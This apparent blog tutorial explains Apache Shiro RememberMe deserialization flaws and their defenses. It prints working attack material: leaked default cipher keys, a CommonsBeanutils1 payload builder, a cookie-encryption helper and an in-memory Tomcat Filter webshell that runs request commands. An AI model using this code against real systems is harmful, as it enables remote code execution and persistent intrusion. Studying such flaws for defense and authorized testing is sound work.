

## 一、前言

Apache Shiro 是 Java 生态中广泛使用的安全框架，其 "RememberMe" 功能通过 Cookie 持久化用户身份，却因设计缺陷成为反序列化攻击的重灾区。从 2016 年的 Shiro-550（CVE-2016-4437）到 2019 年的 Shiro-721（CVE-2019-12422），再到无依赖利用链、内存马注入和自动化检测的持续演进，Shiro 反序列化始终是渗透测试中的高频突破口。本文将系统梳理其底层原理、利用手法与检测工具链。

## 二、RememberMe 机制与攻击面

### 2.1 Cookie 生成流程

```
┌──────────┐    登录请求     ┌──────────┐
│  Browser │ ──────────────> │  Server  │
│          │ <────────────── │          │
│          │  Set-Cookie:    │          │
│          │  rememberMe=    │          │
│          │  base64(AES(    │          │
│          │   serialize(    │          │
│          │   Principal)))  │          │
└──────────┘                 └──────────┘
      │
      │  后续请求携带 Cookie
      │ ──────────────────────────>  base64解码 → AES解密 → readObject()
```

核心代码逻辑：

```java
// 1. 序列化主体对象
byte[] serialized = serialize(principalCollection);
// 2. AES-CBC 加密
Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
cipher.init(Cipher.ENCRYPT_MODE, secretKey, iv);
byte[] encrypted = cipher.doFinal(serialized);
// 3. Base64 编码写入 Cookie
String cookieValue = Base64.encodeToString(encrypted);
```

服务端在 `CookieRememberMeManager.getRememberedPrincipals()` 中无条件逆向执行上述步骤，最终调用 `ObjectInputStream.readObject()`。**攻击面在于：Cookie 完全由客户端提交，反序列化入口对攻击者可控。**

## 三、Shiro-550：硬编码密钥

### 3.1 漏洞根源

`AbstractRememberMeManager` 源码中写死了默认 AES 密钥：

```java
private static final byte[] DEFAULT_CIPHER_KEY =
    Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

public AbstractRememberMeManager() {
    this.setCipherKey(DEFAULT_CIPHER_KEY);
}
```

若开发者未调用 `setCipherKey()` 配置自定义密钥，全球所有该类应用共享同一把钥匙——攻击者构造的恶意 Cookie 通杀全量。

### 3.2 利用流程



## 四、Shiro-721：Padding Oracle 攻击

### 4.1 原理

AES-CBC 模式下解密过程为：

```
Ciphertext[i-1] XOR AES_Decrypt(Ciphertext[i]) => Plaintext[i]
```

若服务端解密后对 `PKCS5Padding` 校验失败抛出异常（`PaddingException`），攻击者可根据响应差异逐字节推测中间状态值，构造任意密文——**即使完全不知道密钥**。平均需要约 2000-4000 次请求。

### 4.2 Shiro-550 vs Shiro-721 对比

| 特性 | Shiro-550 | Shiro-721 |
|------|-----------|-----------|
| CVE | CVE-2016-4437 | CVE-2019-12422 |
| 攻击方式 | 已知密钥直接构造 | Padding Oracle 推测 |
| 前提 | AES 密钥已知 | 存在合法 Cookie 作 Oracle |
| 难度 | 低（单次请求） | 中（数千次请求） |
| 影响版本 | < 1.2.5（未改密钥） | < 1.4.2 |
| 修复 | 移除硬编码密钥 | 升级 1.4.2+ |

交互差异图示：

```
Shiro-550:  攻击者 ──[单次恶意请求]──> 目标 ──> 代码执行
Shiro-721:  攻击者 ──[请求1:探测]──> 目标 ──[请求2:探测]──> ... ──[请求N:利用]──> 目标
                      平均需 256×16 ≈ 4096 次请求完成一个块的破解
```

## 五、常见密钥泄露场景

### 5.1 源码与配置泄露

开发者常将密钥硬编码后提交至公开仓库：

```ini
# shiro.ini
securityManager.rememberMeManager.cipherKey = 4AvVhmFLUs0KTA3Kprsdag==
```

```yaml
# application.yml
shiro:
  rememberMe:
    cookie:
      cipherKey: wGiHplamyXlVB11UXWol8g==
```

Spring Boot Actuator 暴露的 `/env`、`/configprops` 端点也可能泄漏运行时配置中的密钥。

### 5.2 已知密钥集（部分，仅用于授权研究）

```
kPH+bIxk5D2deZiIxcaaaA==  # Shiro 默认密钥
2AvVhdsgUs0FSA3SDFAdag==  # 二开项目常见
3AvVhdflUs0FTA3FKprsda==  # 某开源项目默认配置
4AvVhmFLUs0KTA3Kprsdag==  # 教程示例代码
5aaC5qKm5oqA5pyvAAAAAA==  # 入门 demo
Z3VucwAAAAAAAAAAAAAAAA==  # 安全测试工具内置
U3ByaW5nQmxhZGUAAAAAAA==  # Spring Boot 集成样例
wGiHplamyXlVB11UXWol8g==  # 官方文档示例（已废弃）
```

## 六、无依赖利用：CommonsBeanutils1 链

### 6.1 为什么需要"无依赖"

ysoserial 的 CommonsCollections 链依赖 CC 3.x/4.x，但现代应用常不引入该库。CommonsBeanutils 几乎随 Apache Commons 生态"默认在场"（Struts2、Spring 等框架间接依赖），是替代首选。

### 6.2 核心 Gadget 链路

```
ObjectInputStream.readObject()
  └── PriorityQueue.readObject()
        └── PriorityQueue.heapify()
              └── PriorityQueue.siftDownUsingComparator()
                    └── BeanComparator.compare()
                          └── PropertyUtils.getProperty()
                                └── TemplatesImpl.getOutputProperties()
                                      └── TemplatesImpl.newTransformer()
                                            └── （加载字节码执行任意代码）
```

### 6.3 关键代码

```java
public static byte[] getPayload(byte[] bytecode) throws Exception {
    TemplatesImpl templates = new TemplatesImpl();
    setFieldValue(templates, "_bytecodes", new byte[][]{bytecode});
    setFieldValue(templates, "_name", "PwnRCE");
    setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

    BeanComparator comparator = new BeanComparator(
        null, String.CASE_INSENSITIVE_ORDER);
    PriorityQueue<Object> queue = new PriorityQueue<>(2);
    queue.add("a"); queue.add("b");

    setFieldValue(comparator, "property", "outputProperties");
    setFieldValue(queue, "comparator", comparator);
    setFieldValue(queue, "queue", new Object[]{templates, templates});

    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    new ObjectOutputStream(bos).writeObject(queue);
    return bos.toByteArray();
}
```

### 6.4 链选择策略

| 场景 | 推荐链 | 所需依赖 |
|------|--------|----------|
| Tomcat 常见项目 | CommonsBeanutils1 | commons-beanutils |
| JBoss/WildFly | CommonsCollections | commons-collections |
| 内网低版本 JDK | Jdk7u21 | 无额外依赖 |
| Spring Boot 2.x | CommonsBeanutils2 | beanutils + logging |
| 仅探测 | URLDNS（无危害） | 无 |

## 七、内存马注入

### 7.1 动机

传统 Webshell 落盘存在 HIDS/EDR 扫描、无写入权限、日志留痕等问题。内存马驻留 JVM 堆中，**无文件落地**，绕过传统检测。

### 7.2 Filter 型注入

Tomcat 管道：`Request → FilterChain → Filter₁ → ... → Servlet → Response`

```java
// 获取 Context
WebappClassLoader loader = (WebappClassLoader)
    Thread.currentThread().getContextClassLoader();
StandardContext ctx = (StandardContext)
    loader.getResources().getContext();

// 恶意 Filter
Filter filter = new Filter() {
    public void doFilter(ServletRequest req, ServletResponse resp,
            FilterChain chain) throws IOException, ServletException {
        String cmd = ((HttpServletRequest)req).getParameter("cmd");
        if (cmd != null) {
            Process p = Runtime.getRuntime().exec(cmd);
            // 读取输出写入 response（省略 IO）
            return;
        }
        chain.doFilter(req, resp);
    }
    public void init(FilterConfig c) {}
    public void destroy() {}
};

// 动态注册
FilterDef def = new FilterDef();
def.setFilterName("SessionFilter");
def.setFilterClass(filter.getClass().getName());
def.setFilter(filter);
ctx.addFilterDef(def);
FilterMap map = new FilterMap();
map.setFilterName("SessionFilter");
map.addURLPattern("/*");
ctx.addFilterMapBefore(map);
Method m = StandardContext.class.getDeclaredMethod("filterStart");
m.setAccessible(true);
m.invoke(ctx);
```

### 7.3 持久化

单次注入在应用重启后失效。长期维持可结合 JNDI 注入或定时任务重注入；使用 Javassist 修改已有 Filter 类可提高隐蔽性。

## 八、检测与工具链

### 8.1 被动指纹识别

响应头中出现即确认 Shiro 存在：

```
Set-Cookie: rememberMe=deleteMe; Path=/; Max-Age=0; ...
```

### 8.2 主动探测

使用 URLDNS 链 + DNSLog 进行无危害验证：

```python
from Crypto.Cipher import AES
import base64

def wrap_payload(payload_bytes, key_b64):
    key = base64.b64decode(key_b64)
    iv = b'\x00' * 16
    cipher = AES.new(key, AES.MODE_CBC, iv)
    # PKCS7 padding
    pad_len = 16 - len(payload_bytes) % 16
    payload_bytes += bytes([pad_len] * pad_len)
    encrypted = cipher.encrypt(payload_bytes)
    return base64.b64encode(encrypted).decode()
```

### 8.3 工具生态

| 工具 | 用途 | 特点 |
|------|------|------|
| ShiroExploit（GUI） | 检测与利用 | 多链支持，图形界面 |
| shiro_attack（CLI） | 批量检测+内存马 | 单目标与批量模式 |
| Burp 插件 ShiroScan | 被动扫描 | 自动识别 Cookie |
| nuclei 模板 | 自动化扫描 | CI/CD 集成 |
| Fofa/Shodan | 资产测绘 | Shiro 特征指纹 |

### 8.4 Key 爆破流程

```
已知密钥库（~3000 个）
      │
      ▼
┌───────────────────────┐
│ 发包: encrypt(URLDNS) │
└─────────┬─────────────┘
          ▼
  ┌───────────────┐
  │ DNSLog 收到回显?│──是──> 密钥有效，漏洞确认
  └───────┬───────┘
          │否
          ▼
  尝试下一个密钥
```

## 九、防御建议

**开发侧**：
- 升级至 Shiro 1.10.0+，高版本内置类白名单机制。
- 使用随机高熵密钥并通过环境变量注入，绝不硬编码。
- 实现 `ClassResolvingObjectInputStream` 限制可反序列化类。
- 丢弃异常长的 Cookie（正常 RememberMe < 1KB）。

**运维侧**：
- WAF 检测 Cookie 中 Base64 长度 > 3KB 或含序列化魔数 `aced0005` 的请求。
- RASP 在 `ObjectInputStream.resolveClass()` 级别拦截非白名单类。
- 监控频繁的 `PaddingException`，可能是 Padding Oracle 攻击。

## 十、免责声明

> **本文所述技术仅供安全研究与授权测试使用。** 任何个人或组织在未获得系统所有者明确书面授权的情况下，利用本文所述技术对系统进行测试、攻击或入侵均属违法行为。作者不对因误用、滥用本文信息而造成的任何直接或间接损失及法律责任负责。
>
> 渗透测试人员在验证 Shiro 漏洞前，必须确保已签署有效授权协议。非授权场景下即使仅发送 DNSLog 探测流量，也可能触及《网络安全法》《刑法》等规定。

## 十一、总结

Shiro RememberMe 反序列化漏洞披露已逾十年，但因门槛低、影响广、绕过多，授权渗透测试中检出率依然很高。理解 Shiro-550 与 Shiro-721 的差异、掌握无依赖 Gadget 链构造、熟悉内存马注入流程、善用检测工具链，是处置该类漏洞的关键。安全不在于发现一个漏洞然后修补它，而在于建立纵深防御体系，让攻击者在每一层都付出高昂成本。

---

**参考资料**

1. [Apache Shiro Security Reports — CVE-2016-4437](https://shiro.apache.org/security-reports.html)
2. [Apache Shiro Security Reports — CVE-2019-12422](https://shiro.apache.org/security-reports.html)
3. [ysoserial — CommonsBeanutils1](https://github.com/frohoff/ysoserial)
4. [phith0n — Java安全漫谈](https://github.com/phith0n/JavaThings)
5. [shiro_attack 工具集](https://github.com/j1anFen/shiro_attack)
